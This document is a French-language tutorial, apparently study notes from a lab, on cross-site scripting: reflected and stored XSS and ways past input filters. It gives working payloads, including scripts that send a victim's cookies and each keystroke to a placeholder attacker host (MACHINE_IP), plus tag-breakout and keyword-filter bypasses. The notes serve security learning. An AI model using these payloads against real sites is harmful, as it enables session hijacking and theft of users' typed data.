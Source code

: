 Les failles XSS sont des **failles** qui se passe **côté client**, elles consistent à éxécuter des **scripts javascript** sur la page d'une victime.

## __Payload__

Télécharger l'extension [Hack tool](https://github.com/LasCC/Hack-Tools) pour disposer de plusieurs payload à utiliser facilement.

### Proof Of Concept

```html
<script>alert("XSS");</script>
```

Ce code affichera "XSS" à l'écran si une faille XSS existe.

### Session Stealing

```html
<script>fetch('MACHINE_IP?cookie=' + btoa(document.cookie));</script>
```

Ce code enverra les cookies de la victime à l'adresse de la machine.

### Key Logger

```html
<script>document.onkeypress=function(e){fetch('http://MACHINE_IP/log?key='+btoa(e.key));}</script>
```

Ce code enverra, à chaque fois que la victime appuyera sur une touche, la valeur de la touche à l'adresse de la machine.


## __Reflected XSS__

Une reflected XSS est présente lorsque la page affiche une valeur passé en *paramètre dans l'URL*.
Example :

![[reflectedXss1.png]]

En remplaçant la valeur de *error* par un script, on peut obtenir ceci :

![[reflectedXss2.png]]

Voici un schéma qui illustre ce qui se passera quand nous enverrons ce lien à une victime :

![[reflectedXss3.png]]


## __Stored XSS__

Lorsqu'un script XSS est *stocké dans une base de donnée* on appelle cela une Stored XSS. Cela peut se produire lors de la création d'un compte, ou d'un poste sur un forum par example.
Cela aura pour action que lorsqu'un client accedera à cette page, cela chargera le script XSS et l'executera.


## __Perfecting the Payload__

### 1er cas

![[perfectingPayload1.1.png]]

![[perfectingPayload1.2.png]]

Dans ce scénario on peut bypass la balise \<**input**\> en écrivant:

```html
"><script>alert('XSS');</script>
```
Avec *">* on va **fermer** la balise \<**input**\> avant d'écrire notre script.

### 2e cas

Parfois le rendu de notre payload peut ressembler à ca :

![[perfectingPayload2.png]]

Le problème est dû au fait que le serveur à retiré le mot *script*, pour bypass cela il suffit d'écrire le mot clé autour du mot supprimé.

```html
<sscriptcript>alert("XSS");</sscriptcript>
```

Une fois le texte enlevé par le filtre le code ressemblera à ca :

```html
<script>alert("XSS");</script>
```

### 3e cas

Dans le cas ou nous voulions insérer un **payload à la place de l'url d'une image**, on pourrai se retrouver dans cette situation :

![[perfectingPayload3.1.png]]

Dans ce cas le code de bypass ressemblerai à ça :

```html
/images/cat.jpg" onload="alert('XSS');
```

![[perfectingPayload3.2.png]]